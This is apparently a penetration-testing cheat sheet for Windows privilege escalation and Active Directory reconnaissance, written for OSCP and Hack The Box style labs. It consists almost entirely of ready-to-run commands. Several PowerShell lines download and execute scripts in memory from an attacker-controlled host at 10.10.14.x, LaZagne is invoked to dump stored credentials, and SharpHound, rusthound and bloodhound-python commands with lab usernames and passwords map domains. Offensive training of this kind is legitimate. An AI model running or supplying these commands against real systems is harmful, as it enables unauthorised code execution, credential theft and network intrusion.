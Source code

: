 ### Powerless
https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk
```powershell
wget https://raw.githubusercontent.com/gladiatx0r/Powerless/master/Powerless.bat
```
### token
```powershell
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```
### Sherlock
https://github.com/rasta-mouse/Sherlock
```powershell
wget https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1

IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.36/Sherlock.ps1'); Find-AllVulns
```
### PrivescCheck
https://github.com/itm4n/PrivescCheck
```powershell
wget https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1

IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.36/PrivescCheck.ps1'); Invoke-PrivescCheck
```

### Snaffler
Share Folder
```powershell
wget https://github.com/SnaffCon/Snaffler/releases/download/1.0.150/Snaffler.exe

.\Snaffler.exe -d oscp.exam -v data
```

### LaZagne
Credential Discovery
```powershell
.\lazagne.exe all
```

### BloodHound
#### Sharphound
```powershell
# Sharphound
cd /usr/share/sharphound/
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/SharpHound.ps1')
Invoke-BloodHound -CollectionMethod All -Domain htb.local -DomainController 10.10.10.1 -OutputDirectory C:\Users\stephanie\Desktop\ -OutputPrefix "Name"

.\SharpHound.exe -c All -d htb.local --domainController 10.10.10.1 -o 

# rusthound
./rusthound_musl -d streamio.htb -i 10.10.11.158 -u 'JDgodd@streamIO.htb' -p 'JDg0dd1s@d0p3cr3@t0r' -z --adcs --ldaps

# Bloodhound-python
bloodhound-python -c all -u enox -p california -d heist.offsec -ns 192.168.171.165 --zip
```
#### neo4j
```bash
MATCH (m:Computer) RETURN m
```